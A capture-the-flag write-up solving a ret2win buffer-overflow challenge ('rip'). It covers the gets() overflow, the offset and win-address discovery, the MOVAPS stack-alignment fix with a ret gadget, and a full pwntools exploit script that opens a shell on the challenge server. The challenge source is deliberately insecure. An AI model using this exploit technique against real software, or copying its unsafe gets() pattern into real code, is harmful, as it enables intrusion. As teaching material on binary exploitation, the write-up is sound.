







# Educational/`rip`

> Author: [@hagronnestad](https://github.com/hagronnestad)
> 
> This writeup is also available as a webpage here: [https://heinandre.no/ctf-equinor-22/educational-rip/](https://heinandre.no/ctf-equinor-22/educational-rip/)

- [Educational/`rip`](#educationalrip)
  - [Task Description](#task-description)
  - [Inspecting Supplied Files](#inspecting-supplied-files)
  - [Checking ELF Security](#checking-elf-security)
  - [Finding Address Of `win`-method](#finding-address-of-win-method)
  - [Buffer Overflow & Finding The Exploit Offset](#buffer-overflow--finding-the-exploit-offset)
  - [Building The Exploit Payload](#building-the-exploit-payload)
  - [Verifying Our Exploit Payload In `gdb`](#verifying-our-exploit-payload-in-gdb)
  - [`I/O` Issues / Interactivity](#io-issues--interactivity)
    - [Interactivity Using `pwntools`](#interactivity-using-pwntools)
    - [Interactivity in `bash`](#interactivity-in-bash)
  - [Testing The Exploit On The Remote Target](#testing-the-exploit-on-the-remote-target)
  - [Target Differences](#target-differences)
    - [The MOVAPS Issue](#the-movaps-issue)
    - [Testing Locally On Ubuntu 22.04](#testing-locally-on-ubuntu-2204)
  - [Solving The `MOVAPS` Issue](#solving-the-movaps-issue)
    - [ROP Gadgets](#rop-gadgets)
  - [Running The Final Exploit On The Remote Target](#running-the-final-exploit-on-the-remote-target)
  - [🚩 Flag](#-flag)
  - [Full `solve.py` Script](#full-solvepy-script)

## Task Description




## Inspecting Supplied Files

Let's `untar` the `rip.tar.gz` archive:

```bash
$ tar xvf rip.tar.gz
rip-handout/
rip-handout/rip
rip-handout/Dockerfile
rip-handout/rip.c
```

We are supplied with the binary `./rip` and also the source code `rip.c` as well as a `Dockerfile`.

Relevant parts from `rip.c`
```c
void win() {
    system("/bin/sh");
}

int main(void){
    ignore_me_init_buffering();
    ignore_me_init_signal();

    char lol[100];
    printf("Enter password\n> ");
    gets(lol);
    if (! strcmp(lol, "s3cretp4assw0rdyo")) {
        puts("GGWP, that is correct!");
    }
    else{
        puts("nope.");
    }

}
```

This looks like like a pretty standard `ret2win`-challenge with a `gets`-vulnerability and a `win`-method that spawns a shell.

We can see that there is some code in there to throw us off.

```c
if (! strcmp(lol, "s3cretp4assw0rdyo")) {
```

But typing in the `s3cretp4assw0rdyo`-password doesn't do anything interesting.


## Checking ELF Security

```bash
$ checksec rip
[*] '/home/hag/ctf-equinor-22/educational-rip/rip-handout/rip'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We're dealing with a program with no `PIE` (Position Independent Executable). That means that the addresses inside the executable are going to stay the same between multiple systems and multiple runs.


## Finding Address Of `win`-method

```bash
$ objdump -t rip | grep F
0000000000401190 l     F .text  0000000000000000              deregister_tm_clones
00000000004011c0 l     F .text  0000000000000000              register_tm_clones
# ...abbreviated
00000000004012f4 g     F .text  0000000000000017              win
0000000000401180 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401150 g     F .text  000000000000002f              _start
000000000040130b g     F .text  000000000000007a              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
00000000004012ce g     F .text  0000000000000026              ignore_me_init_signal
0000000000401000 g     F .init  0000000000000000              .hidden _init
```

Address of the `win`-method is `0x4012f4` as seen using `objdump`.

We can also get the address in our `Python`-script using `pwntools` like this:

```python
elf = ELF("./rip")
addr_win = elf.symbols['win']
print(f"{addr_win:X}")
```

Now we need to perform a buffer overflow on the `gets`-call. That way we can find the offset we need to place the address of the `win`-method on the stack.


## Buffer Overflow & Finding The Exploit Offset

```c
char lol[100];
```

The buffer in the program has a length of `100`. Let's create a `cyclic` pattern of `150` chars:

```bash
$ cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

Now let's run the program in `gdb` and have a look:

```bash
$ gdb rip
GNU gdb (Debian 10.1-2+b1) 10.1.90.20210103-git
gef➤

gef➤  r
Starting program: /home/hag/ctf-equinor-22/educational-rip/rip-handout/rip
Enter password
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

We get a `SIGSEGV` as expected and we can see that the stack is overwritten with our `cyclic` pattern:



When the `ret`-instruction at `0x401384` is executed, the program tries to return to the address at the top of the stack. That means that if we place the address of the `win`-method where we can currently see the `$rsp` pointing at our cyclic pattern; `"faabgaabhaabiaabjaabkaablaabma"     ← $rsp`, we should be able to change the program flow and retrieve the flag.

The nice thing about the `cyclic` pattern is that we can easily find the correct offset for our payload by using the `cyclic`-command again with the `-l` parameter and the `faab`-pattern currently on the stack:

```bash
$ cyclic -l faab
120
```

The offset for our payload is `120` bytes.

## Building The Exploit Payload

Now we start to build our payload. We find the address of the `win`-method using `pwntools`. The we build the payload by padding with `A * offset` and the we follow with the `win`-address. The address is wrapped in `p64` to make sure that the endianness is correct. `0x4012f4` becomes `0xf41240`. This script writes the payload to the `payload` file for easy testing in `gdb`.

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

# Used for testing the payload in `gdb`:
file = open("payload", "wb")
file.write(payload + b"\n")
file.close()
```


## Verifying Our Exploit Payload In `gdb`

Now we try the exploit in `gdb` to verify that everything works. First we run `disas main` to disassemble the `main`-method so that we can find an address and set a breakpoint to inspect the stack. This is because we won't get a `SIGSEGV` this time, so we have to make the program stop at the correct place.

```bash
gef➤  disas main
Dump of assembler code for function main:
# ...abbreviated
   0x0000000000401372 <+103>:   lea    rdi,[rip+0xd01]        # 0x40207a
   0x0000000000401379 <+110>:   call   0x4010d0 <puts@plt>
   0x000000000040137e <+115>:   mov    eax,0x0
   0x0000000000401383 <+120>:   leave
   0x0000000000401384 <+121>:   ret
End of assembler dump.
```

We set our breakpoint at the `ret`-instruction, which is the last instruction in `main`. This is right before our `win`-address is being popped of the stack.

The address of the `ret`-instruction is `0x0000000000401384`. We use `b *` followed by the address to set the breakpoint. Then we run the program inside `gdb` and read in the `payload` file.

```bash
gef➤  b *0x0000000000401384
Breakpoint 1 at 0x401384
gef➤  r < payload
```

We hit our breakpoint at `0x401384`:



Let's have a closer look at the `stack` and `disassembly`. We can see our `win`-address (`0x4012f4`) at the top of the stack at address `0x00007fffffffd6d8`:



In the assembly listing we see that the program stopped on the `ret`-instruction as expected and that the next instruction is the first instruction in the `win`-method.

***This is looking very promising!***


## `I/O` Issues / Interactivity

However, if we type `c` to continue in `gdb` we will end up with another `SIGSEGV`. I can't explain this properly in a technical way, but it's some kind of `I/O` issue when we call into `/bin/sh` from `win`.

Let's just test our exploit locally in our shell:

```bash
$ ./rip < payload
Enter password
> nope.
Segmentation fault
```

We can see the same thing, we go straight to a `Segmentation fault`. It's very easy to get sidetracked here and start debugging the exploit itself, but the exploit does actually work.

***⚠️ I think this is important to highlight because I've spent a lot of time fighting mistakes like this myself. ⚠️***


### Interactivity Using `pwntools`

Let's test using a Python-script and `pwntools`:

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('./rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

io = process('rip')
io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```

Let's run the Python-program:

```bash
$ python solve.py
[+] Starting local process './rip': pid 770889
[*] Switching to interactive mode
nope.
$ # Our Python-script is waiting for I/O thanks to io.interactive()
$ lsb_release -a
No LSB modules are available.
Distributor ID:    Kali
Description:    Kali GNU/Linux Rolling
Release:    2022.2
Codename:    kali-rolling
$
```

It works! The important part here is the `io.interactive()`-call. This makes sure that our program doesn't instantly exit and let's us interact with the `/bin/sh`-process started by `win`.


### Interactivity in `bash`

The easy fix is to always make a `pwntools`-based exploit script and use `io.interactive()`, but that's not always feasable, so how can we do the same thing when testing our exploit directly in `bash`?

There are multiple ways of doing it, but one easy way is to use `cat` like this:

```bash
$ (cat payload; cat) | ./rip
Enter password
> nope.

lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2022.2
Codename:       kali-rolling
```

We now see that the program doesn't instantly crash and waits for input instead. And as soon as we enter a command we get the output back. This is because of the second `cat` in the `(cat payload; cat)`-command. `cat` with no arguments will just wait for input and also write any output back to us.

Hopefully this demonstration can save someone a lot of issues on the future! Now let's move on.


## Testing The Exploit On The Remote Target

Our remote target:
  - Host: `io.ept.gg`
  - Port: `30009`

Let's modify our `solve.py` script to connect to the remote host instead of running the binary locally:

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('./rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

#io = process('rip')
io = connect("io.ept.gg", 30009)
io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```

Our payload is the same as before and we only have to swap out one line of code to run the exploit on the remote target:

```python
#io = process('rip')
io = connect("io.ept.gg", 30009)
```

Let's try:

```bash
$ python solve.py
[+] Opening connection to io.ept.gg on port 30009: Done
[*] Switching to interactive mode
nope.
$
[*] Got EOF while sending in interactive
BrokenPipeError: [Errno 32] Broken pipe
```

The exploit fails! 💣😫

This is where I had to do some research. It's a pretty common issue that an exploit works locally and not remotely. There can be multiple reasons for this, but after some research I was feeling pretty certain that `The MOVAPS issue` was the culprit in our situation.


## Target Differences

### The MOVAPS Issue

> If you're segfaulting on a `movaps` instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses `movaps` instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a push instruction.

*Taken from: [https://ropemporium.com/guide.html#Common%20pitfalls](https://ropemporium.com/guide.html#Common%20pitfalls). ‼️ Read this article for more common pitfalls!*

This is the issue we're experiencing here. Our exploit works fine on my `Kali Linux`-instance, but fails on `Ubuntu 22.04`, which our target is running. In this case we know what OS the target is running because of the supplied `Dockerfile`:

```dockerfile
FROM ubuntu:22.04
```


### Testing Locally On Ubuntu 22.04

It's a good idea to always test an exploit on the same platform as the target when possible. I have a `WSL2`-instance running `Ubuntu 22.04` and we can test it now:

```bash
$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:        22.04
Codename:       jammy

$ python3 solve.py
[+] Starting local process './rip': pid 19406
[*] Switching to interactive mode
nope.
[*] Got EOF while reading in interactive
$ ls
[*] Process './rip' stopped with exit code -11 (SIGSEGV) (pid 19406)
[*] Got EOF while sending in interactive
BrokenPipeError: [Errno 32] Broken pipe
```

## Solving The `MOVAPS` Issue

From [`The MOVAPS Issue`](#the-movaps-issue) above:

> `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function

The solution is simple, we just need to add an extra `ret`-instruction before returning into the `win`-method.

The `ret`-instruction has the `OP`-code `0xC3`. So can we just add a `ret`-instruction directly to our payload like this:

```python
payload = b"".join([
    b'A' * offset,
    p64(0xC3),
    p64(addr_win)
])
```

Let's run the program in `gdb` to inspect:



The answer is no. This is also a pretty common pitfall. The `ret` at the end of `main` (`0x401384`) is returning to the address at the top of the stack. We can see our `0xC3` at the top of the stack before the pointer to `win`, but `0xC3` is not a valid address. We need an address ***pointing*** at a `ret`-instruction, not the instruction itself! That's when we need a `ROP-gagdet`!


### ROP Gadgets

ROP-gadgets are pieces of code within an executable that can be used to our advantage. There are multiple types of gadgets for many different situations, but in our case, all we need is a `ret`-gadget.

One way of finding ROP-gadgets is to use the `ROPgadget.py` tool:

```bash
$ ROPgadget --binary ./rip --ropchain
Gadgets information
============================================================
# ...abbreviated
0x00000000004013f1 : pop rsi ; pop r15 ; ret
0x00000000004013ed : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040105b : sar edi, 0xff ; call qword ptr [rax - 0x5e1f00d]
# ...abbreviated
Unique gadgets found: 76
```

We find multiple `ret`-gadgets in our `rip`-binary, let's use this one; `0x000000000040101a : ret`.

Let's modify our payload again. We remove `p64(0xC3),` and add `p64(0x40101a),`:

```python
payload = b"".join([
    b'A' * offset,
    p64(0x40101a),
    p64(addr_win)
])
```

We debug our payload in `gdb` again:



We can confirm that we now have an extra address on the stack that points to a `ret`-instruction.

Let's execute one more instruction in `gdb` using `ni`:



The `ret` in `main+121` returns to our new `ret`-instruction at `0x40101a` which again returns to `win` at `0x4012f4`.

The good thing is that our payload still works on `Kali Linux`:

```bash
$ python solve.py
[+] Starting local process './rip': pid 802142
[*] Switching to interactive mode
nope.

$ lsb_release -a
No LSB modules are available.
Distributor ID:    Kali
Description:    Kali GNU/Linux Rolling
Release:    2022.2
Codename:    kali-rolling
$
```

Now let's try `Ubuntu 22.04` again:

```bash
$ python3 solve.py
[+] Starting local process './rip': pid 19509
[*] Switching to interactive mode
nope.
$ lsb_release -a
No LSB modules are available.
Distributor ID:    Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:    22.04
Codename:    jammy
$
```

It works! 🎉


## Running The Final Exploit On The Remote Target

```bash
$ python solve.py
[+] Opening connection to io.ept.gg on port 30009: Done
[*] Switching to interactive mode
nope.
$ cat /opt/flag
EPT{9d840114cd3b18dd688716093a7ddde8}$
$
```

## 🚩 Flag

I learned a lot from this one and got the flag in the end!

```
EPT{9d840114cd3b18dd688716093a7ddde8}
```

## Full `solve.py` Script

In the final script we use `pwntools` to easily find the `ret`-gadget for us:

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'

# Local / remote flags
LOCAL = False
GDB = False
PROCESS = 'rip'
REMOTE_HOST = "io.ept.gg"
REMOTE_PORT = 30009

# Start the process or open a remote connection
if (LOCAL):
    io = process(PROCESS)
else:
    io = connect(REMOTE_HOST, REMOTE_PORT)

# gdb debugging and script
if (LOCAL and GDB):
    gdbscript = '''
    '''
    pid = gdb.attach(io, gdbscript=gdbscript)

# load the ELF-object to easily lookup symbols
elf = ELF(PROCESS)
addr_win = elf.symbols['win']
# print(f"{addr_win:X}")

# load ROP-gadgets
rop = ROP(PROCESS)

offset = 120

payload = b"".join([
    b'A' * offset,
    # extra ret-instruction for `MOVAPS` issue on Ubuntu
    p64(rop.ret.address),
    p64(addr_win)
])

# Used for testing the payload in `gdb`:
file = open("payload", "wb")
file.write(payload + b"\n")
file.close()

io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```
